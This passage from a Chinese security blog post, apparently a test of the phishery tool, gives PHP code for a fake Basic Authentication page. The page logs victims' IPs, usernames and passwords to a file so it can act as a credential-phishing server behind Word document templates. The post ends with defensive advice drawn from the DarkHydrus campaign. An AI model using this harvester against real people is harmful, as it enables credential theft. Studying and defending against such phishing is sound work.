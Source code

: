访问`https://127.0.0.1`，验证

### 2、php实现Basic Authentication，记录用户口令

php代码如下：

```
<?php
if(!isset($_SERVER['PHP_AUTH_USER']) or !isset($_SERVER['PHP_AUTH_PW']))
{
	file_put_contents("log.txt","ClientIP:".$_SERVER['REMOTE_ADDR']."\r\n",FILE_APPEND);
	header('WWW-Authenticate: Basic realm="Document Security"');
	header('HTTP/1.0 401 Unauthorized');
} 
else 
{
	file_put_contents("log.txt","ClientIP:".$_SERVER['REMOTE_ADDR'].",".$_SERVER['PHP_AUTH_USER'].":".$_SERVER['PHP_AUTH_PW']."\r\n",FILE_APPEND);
    print "File Not Found";	
}
```

代码实现了记录用户口令并写入文件log.txt，返回用户的内容为`File Not Found`

**注：**

该php脚本可以作为phishery的HTTPS Auth Server

通过php实现Basic Authentication，如果不使用https，弹出的对话框会多一些提示，如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2018-8-20/4-3.png)

如果不使用https，无法作为Word document template插入Word文档

## 0x06 防御建议
---

检测到的实际攻击活动：

https://researchcenter.paloaltonetworks.com/2018/08/unit42-darkhydrus-uses-phishery-harvest-credentials-middle-east/

结合本文的分析和实际攻击活动的细节，给出如下建议：

- 正常word文档很少会要求用户输入凭据
- 对域名的证书进行检查(针对https)
- 对域名进行识别，是否是伪造的域名

## 0x07 小结
---

本文对phishery进行测试，介绍测试细节，分析实现原理，补充了php实现Basic Authentication的方法，最后给出防御建议

个人认为phishery的另一个作用：将内网的一台Windows主机作为服务器，用于记录目标输入的凭据


---


[LEAVE A REPLY](https://github.com/3gstudent/feedback/issues/new)



